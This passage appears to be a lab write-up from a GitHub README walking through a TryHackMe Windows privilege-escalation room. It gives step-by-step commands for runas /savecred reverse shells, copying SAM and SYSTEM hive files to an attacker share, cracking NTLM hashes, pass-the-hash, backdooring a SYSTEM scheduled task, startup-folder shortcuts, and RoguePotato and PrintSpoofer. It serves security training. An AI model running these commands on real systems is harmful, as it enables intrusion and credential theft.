     > ```ruby
     > C:\PrivEsc\savecred.bat script
     > ```
     > to refresh the saved credentials.
     
     > ## ``savecred.bat`` → A script on the lap that forces the system to store the credential (usually owned by the admin).
     > Objective: Make sure that the credential is registered so that we can exploit it.
     
          
     </details>
     
     
     ## 2. run payload using saved credential
     
     ```ruby
     runas /savecred /user:admin C:\PrivEsc\reverse.exe
     ```
     
     - **`runas`** : Tool to run programs as different user
     - **`/savecred`** : It means use the credential stored in the system instead of asking you to enter the password.
     - **`/user:admin`** : Specify that you want to run the program as a user named admin.
     - **`C:\PrivEsc\reverse.exe`** : This is your payload (reverse shell).
     
     
     > ---
     > ### 📌 _Goal → Run reverse.exe with admin privileges without entering the password yourself → take a shell with higher privileges._
     > ---
     
     
     ## 3. open listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     
     <img width="1265" height="315" alt="image" src="https://github.com/user-attachments/assets/f1595237-ce9c-4b71-baa1-383a14ee2106" />
     
     



  </details>









- <details>
     <summary>Security Account Manager (SAM)</summary>

     > ``The idea of ​​exploitation``
     > Windows stores user password hashes in a file called ``SAM`` (Security Account Manager).
     > But the SAM is encrypted, and the key to decrypt it is stored in the ``SYSTEM`` file.
     
     
     > ---
     > ### 📌 _The idea → If you find a backup copy of these files (such as ``C:\Windows\Repair\``), you can copy them and break the passwords._
     > ---
     
     
     ## 1. Transfer SAM and SYSTEM files to Kali
     
     ```ruby
     copy C:\Windows\Repair\SAM \\10.8.47.102\kali\
     copy C:\Windows\Repair\SYSTEM \\10.8.47.102\kali\
     ```
     
     <img width="1247" height="371" alt="image" src="https://github.com/user-attachments/assets/9312c3bf-1ef6-413d-94ba-b0a3dc5dda61" />
     
     
     
     
     > ---
     > ### 📌 _Goal → We take the hashes files and bring them to us so that we can work on them at our convenience._
     > ---
     
     
     ## 2. Download ``creddump7`` Tool
     
     
     ```ruby
     git clone https://github.com/Tib3rius/creddump7
     
     sudo mv creddump7 /opt/
     sudo ln -s /opt/creddump7/pwdump.py /usr/local/bin/pwdump
     ```
     
     > Install the encryption library
     
     ```python
     pip3 install pycrypto
     ```
     
     - **`pip3`** : Python3 package manager.
     - **`install pycrypto`** : We install the `PyCrypto library`so that the tool can extract hashes form files.
     
     
     ## 3. Extracting hashes from files
     
     
     ```ruby
     pwdump SYSTEM SAM
     ```
     
     <img width="883" height="224" alt="image" src="https://github.com/user-attachments/assets/d6c3d6c5-1652-4ed7-b50a-a351130eee05" />
     
     ```ruby
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
     user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
     admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
     ```
     
     
     >  ```
     >  Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
     >  ```
     
     - **`Administrator`** : username
     - **`500`** : The user's RID (Relative Identifier). 500 usually remains the primary Administrator.
     - **`aad3b435b51404eeaad3b435b51404ee`** : LM hash (if not used, this is the default placeholder).
     - **`fc525c9683e8fe067095ba2ddc971889`** : NT hash (which we can use to crack the password or pass-the-hash).
     - **`:::`** : Additional fields are not important to us now.
     
     
     
     ## 4. Crack the hash using Hashcat
     
     
     ```ruby
     hashcat -m 1000 -a 0 fc525c9683e8fe067095ba2ddc971889 /usr/share/wordlists/rockyou.txt
     ```
     
     - **`hashcat`** : A powerful tool for cracking passwords.
     - **`-m 1000`** : It means the hash is of type NTLM.
     
     <img width="672" height="166" alt="image" src="https://github.com/user-attachments/assets/05e7ca96-024b-4d9d-91c0-3010dcc1bd54" />
     
     
     
     
     ## 5. Exploiting the password after it is broken
     
     
     ```ruby
     winexe -U 'admin%<password>' //10.10.10.10 cmd.exe
     
     Or
     
     rdesktop -u admin -p <password> 10.10.10.10
     ```
     
     
     
     <img width="681" height="378" alt="image" src="https://github.com/user-attachments/assets/b422fc9e-d7f2-4542-bc24-59d137851956" />
     
     
     


  </details>









- <details>
     <summary> Passing the Hash</summary>
     
     > ---
     > ### 📌 _The idea → Usually in attacks on Windows, when you have a hash instead of cracking the password, you can use a technique called Pass-the-Hash (PTH).
     > Idea: The hash is used directly for authentication instead of the actual password.
     
     > Why is this useful?
     
     > - Save time (you don't need to break the password).
     
     > - Some systems may prevent brute-force, but not the use of hash for authentication._
     > ---
     
     
     ```ruby
     pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.148.63 cmd.exe
     ```
     
     or 
     
     ```ruby
     python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da admin@10.10.148.63
     ```
     
     
     <img width="1090" height="261" alt="image" src="https://github.com/user-attachments/assets/d017160b-c081-4946-a00b-5ac68d94c122" />
     
     
     <img width="1099" height="245" alt="image" src="https://github.com/user-attachments/assets/004a30ec-a449-4e55-b8a4-b7bb52ccbe7d" />
     
     
     > `smbexec.py` uses the creation service on Windows to run the shell.
     
     > Any service that runs on Windows usually runs under `SYSTEM` privileges.
     
     > This means that even if the user you specified is admin, the `shell` that will open will be `SYSTEM` because it is the service on Windows that is running.
     
     > This is a great advantage because it gives you the highest powers over the system.
     
     
     
     | tool                  | Privileges         | method                                             |
     | --------------------- | ------------------ | -------------------------------------------------- |
     | `impacket smbexec.py` | SYSTEM             | You create a service and run a shell inside it     |
     | `pth-winexe`          | Admin              | Regular logon and shell execution in user session  |
     
     
     


  </details>








     
</details>






















<details>
  <summary>Scheduled Tasks</summary>

- <details>
     <summary>Tip</summary>
     
     > ### here we are in room from THM and we know that the Scheduled task is **`C:\DevTools\CleanUp.ps1`**
     > but in real world how to know ??
     
     
     > - ### **`To view all Scheduled Tasks in system`**
     
     ## **`CMD`**
     
     ```ruby
     schtasks /query /fo LIST /v
     ```
     
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Format-List *
     ```
     
     ## **`GUI`**
     
     ```ruby
     taskschd.msc
     ```
     
     -----
     
     > - ### **`To view all Scheduled Tasks that work as SYSTEM`**
     
     ## **`powershell`**
     
     ```ruby
     Get-ScheduledTask | Where-Object {$_.Principal.UserId -eq "SYSTEM"} | Format-List *
     ```
     
     ---
     
     > ## Where tasks files are stored in?
     
     ```ruby
     C:\Windows\System32\Tasks
     ```
     
     
     

  </details>



## 1. View the content of the PowerShell script

```ruby
type C:\DevTools\CleanUp.ps1
```

- **`type`** : A Windows command that displays the contents of any text file.
- **`C:\DevTools\CleanUp.ps1`** : This is a PowerShell Script file.

> Purpose: To understand what the script is doing (it may be deleting logs or cleaning folders).


<img width="679" height="143" alt="image" src="https://github.com/user-attachments/assets/b94aed7f-ff74-4470-947c-f485eadd8d7b" />



> ---
> ### 📌 _NOte → "The script seems to be running as SYSTEM every minute"_
> ---


## 2. Check file permissions


```ruby
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

<img width="661" height="322" alt="image" src="https://github.com/user-attachments/assets/9e3654bc-90c7-49d9-97ea-e27c22e1125f" />



> ---
> ### 📌 _Goal → Make sure that we can write (Write/Modify) to this script._
> ---

## 3. Adding a malicious line to the script

```ruby
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```


> ---
> ### 📌 _Goal → o make the script run every time your program, reverse.exe, runs with it._
> ---

## 4. Open Listener on kali


```ruby
nc -nvlp 4444
```


<img width="1394" height="262" alt="image" src="https://github.com/user-attachments/assets/6061925d-c493-49c9-87e9-9d460e8f70e5" />





     
</details>













<details>
  <summary>Insecure GUI Apps</summary>

> ---
> ### After you enter RDP, you will find a shortcut named “AdminPaint” on your desktop.

> When you step on it, it launches the Paint program (mspaint.exe), but it is not normal → it starts using Administrator's Privileges.

> This means that you have a GUI (Paint) program running with higher privileges than you.
> 
> ---


## 1. Check privileges “AdminPaint” work with it 

```ruby
tasklist /V | findstr mspaint.exe
```

- **`tasklist /v`** : It displays all running processes in detail (PID, program name, which user runs it).
- **`| findstr mspaint.exe`** : Filter the results to only answer the Paint line.



<img width="952" height="183" alt="image" src="https://github.com/user-attachments/assets/1f204b37-f268-4150-a7af-762d781a5ebf" />


## 2. Exploiting the Open Dialog

- Open Paint → from the menu press File → Open.

- You will receive a Dialog Box for opening files.

- Now, instead of writing an image name, you will write in the navigation bar:


```ruby
file://c:/windows/system32/cmd.exe
```

<img width="435" height="131" alt="image" src="https://github.com/user-attachments/assets/98034852-152b-4282-aa77-cffec62130bc" />

- click ``enter`` not **`open`** button

<img width="1023" height="601" alt="image" src="https://github.com/user-attachments/assets/1edb72c0-99e9-4b39-aa86-cfa71ebeff91" />

     
</details>












<details>
  <summary>Startup Apps</summary>



## 1. Check Startup directory permissions

```ruby
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

- **`-d`** : It means “Directory permissions” shows you who can read/write/delete in the folder.



<img width="957" height="253" alt="image" src="https://github.com/user-attachments/assets/9db41fcc-2890-467c-80a8-94c3765d1967" />



> ---
> ### 📌 _Goal → If you find that the Users group has Write permission here, then any normal user can upload a file/Shortcut that will be executed automatically with any user (even the admin) running → Privilege Escalation._
> ---


## 2. Run vbs Script

```ruby
cscript C:\PrivEsc\CreateShortcut.vbs
```

- **`cscript`** : This is the command-line host for running VBScript (.vbs) files.
- **`C:\PrivEsc\CreateShortcut.vbs`** : the script that we want to run it


> this file when it run it make shortcut to **`C:\PrivEsc\reverse.exe`** and put it on **`startup`** directory


<img width="527" height="108" alt="image" src="https://github.com/user-attachments/assets/57ce227b-f089-452b-b60f-292215f39d91" />


> ---
> ### 📌 _Goal → Instead of writing a shortcut manually, the script creates it automatically and places it in the correct place._
> ---



## 3. simulate an admin logon using RDP

```ruby
rdesktop -u admin 10.10.122.63
```

> here you login as admin just to simulate the attack, in real world the user who login shortcut will work you will take shell with it's privileges


<img width="1525" height="796" alt="image" src="https://github.com/user-attachments/assets/0269105a-d525-451e-be67-f1c2d4fd4b1b" />


## 4. open Listener on kali


```ruby
nc -lnvp 4444
```


<img width="1654" height="761" alt="image" src="https://github.com/user-attachments/assets/4f61d07d-c8d5-42b0-8343-8be29aef3acc" />





- <details>
     <summary>Notes</summary>

     > ## content of vbs file
     
     ```ruby
     Set oWS = WScript.CreateObject("WScript.Shell")
     sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk"
     Set oLink = oWS.CreateShortcut(sLinkFile)
     oLink.TargetPath = "C:\PrivEsc\reverse.exe"
     oLink.Save
     ```
     
     - **`sLinkFile`** : The location of the shortcut file that will be used (.lnk).
     - **`oLink.TargetPath`** : Here is the PrivEsc at `C:\PrivEsc\reverse.exe`.
     - **`oLink.Save`** : save shortcut
     
     ---
     
     > ## how to know what this shortcut refer to
     
     `right Click` → `properties` → `Shortcut`
     
     - you will see **`Target`** content is `C:\PrivEsc\reverse.exe` 
     
     **`or`**
     
     ```ruby
     (Get-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\ReverseShell.lnk").TargetPath
     ```
     
     ---
     
     > ## how to make shortcut manually
     
     **`Powershell`**
     
     ```ruby
     $WshShell = New-Object -ComObject WScript.Shell
     $Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\malicious.lnk")
     $Shortcut.TargetPath = "C:\PrivEsc\reverse.exe"
     $Shortcut.Save()
     ```
     
     `Or`
     
     #### Open `Explorer` write
     
     ```ruby
     shell:startup
     ```
     
     `then`
     
     **`Right Clicl`** → **`New`** → **`Shortcut`**
     
     
     <img width="516" height="101" alt="image" src="https://github.com/user-attachments/assets/b62611a6-1cd4-4624-841c-b3c5e2ae9082" />
     




  </details>






     
</details>
























<details>
  <summary>Token Impersonation</summary>





- <details>
      <summary>Rogue Potato</summary>

     
     
     > ## - In Windows, every process runs under a Security Token that determines its privileges.
     >    - Some services have high permissions, such as LOCAL SERVICE or SYSTEM.
     > ## - If you can "borrow" or "obtain" a token from a service that has high privileges, you can run your program with the same privileges.
     > ## - When you send ``reverse.exe`` to Windows, it is a simple program that attempts to make a reverse connection to the Kali machine.
     >    - If you run it as Admin, it will work with your current permissions. If you run it as a Local Service, it will run with less privileges.
     >>  ** `The goal: to gain an “entry point” into the system, regardless of the initial permissions.`**
     > ## **`PSExec`** is a tool from Sysinternals that allows you to run any program on any Windows machine, and even set the privileges of a specific user or service.
     > ## **`RoguePotato`** It is an Executable/Script that exploits a vulnerability in the Windows system.
     >> #### - **`Its function: Run any program on the device with SYSTEM privileges by exploiting Windows COM / Service Tokens.`**
     >>    -  In Windows, every service has a token that defines its permissions.
     >>    -  Some services have SYSTEM privileges.
     >>    -  RoguePotato exploits a weakness in permissions or COM objects that allows a normal process (such as a Local Service) to "borrow" the SYSTEM privileges service's Token.
     >>    -  After that, any program you run with this Token (such as reverse.exe) will run with SYSTEM privileges.
     
     
     ## 1. Run socat redirector on Kali
     
     ```ruby
     sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
     ```
     
     - **`socat`** : A program that allows us to create a redirect or proxy for communication between two sockets (TCP/UDP).
     - **`tcp-listen:135`** : Listen on port 135 in Kali.
        - `135` : is the RPC Endpoint Mapper port that Windows uses.
     - **`reuseaddr`** : It allows port reuse even if sessions are open.
     - **`fork`** : A fork is used for each new connection (meaning it can serve more than one connection).
     - **`tcp:MACHINE_IP:9999`** : Any connection that comes to Kali:135, send it to the Windows victim on port 9999.
     
     
     
     
     <details>
          <summary>why not netcat??</summary>
     
          
     ### When we use nc directly
          
     ```ruby
     nc -lnvp 9999
     ```
          
     - This is a normal listener on Kali that waits for any connection from Windows on port 9999.
     - Problem: In some scenarios, the exploit or reverse shell on Windows will not be able to connect directly to the listener, especially if:
       - The port that the original program is trying to open is not available (for example 135).
       - There is firewall or NAT blocking. 
          
     ---
          
     ### when we use socat redirector
          
     ```ruby
     sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
     ```
          
     - This does Port Forwarding / Redirector:
       - Any connection coming to Kali on port 135 will automatically switch to the listener on port 9999.
     - Advantages:
       - We can emulate or redirect any port required by exploit.
       - It is useful if the payload on Windows is designed to connect to a specific port (here 135).
       - fork allows socat to accept more than one connection at the same time.  
          
     ---
          
     ### Practical difference
          
     | Property                                          | nc -lnvp 9999   | socat tcp-listen:135 → 9999    |
     | ------------------------------------------------- | --------------- | ------------------------------ |
     | Type of use                                       | Listener normal | Port forwarding + listener     |
     | Number of connections                             | One for each order       | multi(`fork`)                  |
     | Adjustable port payload                           | less            |Any port you want can be redirected |
     | Suitable for exploits that expect a specific port | less           |             excellent                    |
              
     
     
     
          
     </details>
     
     
     
     > ---
     > ### 📌 _Goal → Any incoming connection on Kali from port 135 will automatically be routed to the listener on port 9999 to facilitate reception of the reverse shell from Windows._
     > ---
     
     
     ## 2. Run PSExec64.exe

     Login as **`admin`**
     
     ```ruby
     C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
     ```
     
     - **`C:\PrivEsc\PSExec64.exe`** : A tool from Sysinternals that we use to run commands as another user.
     - **`-i`** : `interactive session` (links to the current desktop session).
     - **`-u "nt authority\local service"`** : We operate as a Local Service account.
     - **`C:\PrivEsc\reverse.exe`** : reverse shell file
     
     
     > ---
     > ### 📌 _Goal → take a new shell, but as a Local Service (not Administrator)._
     > ---
     
     
     ## 3. run RoguePotato
     
     
     ```ruby
     C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
     ```
     
     - **`RoguePotato`** : It is an Executable/Script that exploits a vulnerability in the Windows system.
     - **`-r 10.10.10.10`** : kali Ip that socat run on it
     - **`-e "C:\PrivEsc\reverse.exe"`** : file we want to run it as `SYSTEM`
     - **`-l 9999`** : port that RoguePotato will use it to internal redirect
     
     
     > ---
     > ### 📌 _Goal → RoguePotato exploits DCOM/RPC to request a token from the SYSTEM account and then uses it to run your program as SYSTEM._
     > ---



     > # **`Name one user privilege that allows this exploit to work.`**
     
     ```perl
     SeImpersonatePrivilege
     ```
     
     - **`This is the permission that allows the process to “borrow” the permissions of any token present on the system, and this is the basis that RoguePotato exploits.`**
     
     
     > # **`Name the other user privilege that allows this exploit to work.`**
     
     ```perl
     SeAssignPrimaryTokenPrivilege
     ```
     
     - **`This is the permission that allows a new token to be assigned to any process, and completes the process that RoguePotato uses to access the system.`**
          



  </details>


- <details>
      <summary>PrintSpoofer</summary>

     > There are 3 important levels of permissions in Windows:
     
     | **Account** | **Level** | **Description** |
     | ----------------------- | ----------------- | -------------------------------------- |
     | **Local Service** | Low privilege | Weak system service, very limited permissions
     | **Administrator** | High privilege | It can do almost everything, but not SYSTEM |
     | **NT AUTHORITY\SYSTEM** | Highest privilege | The most powerful account on Windows |
     
     > Here we will start from the Local Service account and go to SYSTEM.

     ## 1. Step 1 – Start a listener on Kali
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     ## 2. login as admin and open `cmd` as adminstrator and run this command:
     
     ```ruby
     C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
     ```
     
     - ``PSExec64.exe`` : tool to run a program with "Local Service" account privileges.
     - **`-i`** : interactive mode
     - **`-u "nt authority\local service"`** : Run the program as Local Service user.
     
     
     
     <img width="1731" height="604" alt="image" src="https://github.com/user-attachments/assets/d54d52fc-3def-4f26-8509-a0a3a4d4daa1" />
     
     > ---
     > ### 📌 _Goal → On the Kali terminal, you will receive the first reverse shell with Local Service privileges._
     > ---
     
     
     
     ## 3. Start a listener on Kali
     
     
     ```ruby
     nc -lvnp 4444
     ```
     
     
     
     
     ## 4.  Step 3 – Exploit PrintSpoofer
     
     
     ```ruby
     C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
     ```
     
     - **`PrintSpoofer.exe`** : PrintSpoofer is an Exploit that exploits SeImpersonatePrivilege.
        - The Local Service usually has this privilege.
        - Result: We can circumvent Windows and upgrade to NT AUTHORITY\SYSTEM privileges.
     - **`-c "C:\PrivEsc\reverse.exe"`** : The command you want to run is as SYSTEM, and here we run reverse.exe.
     
     
     <img width="828" height="178" alt="image" src="https://github.com/user-attachments/assets/a39c6221-1434-498b-a65f-75a056c0b0df" />
     
     
     
     ## 5. recive the shell with **`authority\system`**
     
     <img width="932" height="334" alt="image" src="https://github.com/user-attachments/assets/e806caf2-744e-4bf6-b71a-70339f124343" />

  </details>





     
</details>

<details>
  <summary>Privilege Escalation Scripts</summary>
</details>






